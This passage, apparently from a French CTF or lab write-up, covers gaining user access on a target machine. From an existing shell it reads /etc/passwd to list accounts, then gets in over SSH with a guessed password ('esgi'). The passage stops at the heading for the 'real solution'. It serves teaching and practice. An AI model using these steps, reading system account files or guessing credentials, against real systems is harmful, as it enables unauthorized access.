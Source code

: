 Moi je dis : BINGO !

Un petit cat du fichier `/etc/passwd` nous informe qu'il y a 2 utilisateurs :

```bash
<493bc83f0fb56adda28125498762f28f1cc40c320300125ce$ cat /etc/passwd
cat /etc/passwd
...
eguillemot:x:1000:1000:Erwan Guillemot,,,:/home/eguillemot:/bin/bash
khennou:x:1001:1001:Kamal Hennou,,,:/home/khennou:/bin/bash
```

- eguillement
- khennou

## 2.2. Le flag user

### 2.2.1. La chance

De mon expérience, les mots de passe sont toujours les plus simple, sur un malentendu, `esgi` fonctionnerait pour eguillemot :

```bash
┌──(loullouw㉿kaliT)-[~]
└─$ ssh eguillemot@192.168.17.129 -p 25452
eguillemot@192.168.17.129's password: esgi
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.4.0-67-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

110 packages can be updated.
10 updates are security updates.

New release '20.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed Mar 24 23:34:21 2021 from 192.168.17.130
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

eguillemot@artemis:~$
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c7aa8862-33eb-44d7-81ec-26a35c7068d5/giphy_(1).gif](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c7aa8862-33eb-44d7-81ec-26a35c7068d5/giphy_(1).gif)

Je devrais faire détective, j'ai trop de potentiel.

### 2.2.2. La vrai solution
